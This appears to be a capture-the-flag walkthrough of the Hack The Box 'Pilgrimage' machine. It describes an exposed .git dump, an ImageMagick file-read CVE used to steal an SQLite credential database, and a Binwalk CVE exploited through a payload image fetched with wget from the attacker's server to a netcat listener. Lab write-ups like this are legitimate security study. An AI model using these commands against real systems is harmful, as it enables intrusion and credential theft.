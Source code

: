 ## Pilgrimage - Linux - Easy
### Reproduction
**Vulnerability Exploited**: Misconfiguration - Exploitation  

**System Vulnerabilities**:Kernel - Linux 5.10.0-23-amd64 - 10.10.11.219

**Vulnerabilities Explaination**: Misconfiguration lead to Arbitrary File Read (LFI) lead to RCE/ACE  

**Previlege Escalation Vulnerabilities**: Binwalk - CVE-2022-4510  

**Vulnerabilities Fix**: Update lasted version binwalk, Re-configuration information leaked.  

**Severity**: Critical

**Details**  
***Gathering&Exploitation***  
![dirsearch](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/dirsearch.PNG?raw=true)

Firstly, we using `dirsearch` tool to scan this server, we got `.git` link by misconfiguration leaked.  
From information we gathered by `dirsearch`, use `git dumper` tool dump all file from `pilgrimage.htb/.git`   
![dumping](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/git-dump.PNG?raw=true)  
After dump data from src `.git`, access `dumped` folder, read `login.php` back-end, got db name and db location use to  
get username and password login to web server `sqlite:/var/db/pilgrimage`  
![db-information]()  
On recently directory, we got `magick` ImageMagick 7.1.0-49 tool, got [CVE-2022-44268](https://github.com/Sybil-Scan/imagemagick-lfi-poc)  
Arbitrary File Read.  
use command `python3 generate.py -f "/var/db/pilgrimage" -o exploit.png`, upload exploit.png to website, shrink `http://pilgrimage.htb/`  
and download this png, using `exiftool <img.png> -b` got hex code  
![hex code](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/exiftool.PNG?raw=true)  
use [CyberChef](https://gchq.github.io/CyberChef/) to decode hext get readable data(sqlite).  
![sqli-readable-data](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/readable-message.PNG?raw=true)
use sqlitebrowser retrieving data from sqlite db file. got username and password of `emily` account.  
Try to ssh emily@ip with password, got shell and user flag.  
***PE***  
I'm trying upload `linpeas.sh`, got some CVE but POC not work althought all of them `It work!`  
![CVE-2022-0487](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/cve%202022-0487.PNG?raw=true)  

Continues, i'm trying monitoring process of this machine, `oh Crap!` got a `malwarescan.sh` script, Read source file, they using `binwalk`  
while processing file upload, check version of binwalk we got `Binwalk v2.3.2` - exploitable [CVE-2022-4510](https://www.exploit-db.com/exploits/51249).   
![Binwalk-processing file](https://github.com/nvth/htb/blob/master/pilgrimage/imgs/binwalk-read.PNG?raw=true)  
Using CVE-2022-4510, Create a payload PE `python3 51249.py your-any-images.png your-ip port`, on vulnerable machine at `/var/www/pilgrimage.htb/shrunk/`  
upload this payload on directory, i'm using python simple server to wget this payload from vulnerable machine `wget <myserver>:8000/payload.png` and netcat on payload port  
![PE-sucessfully]()











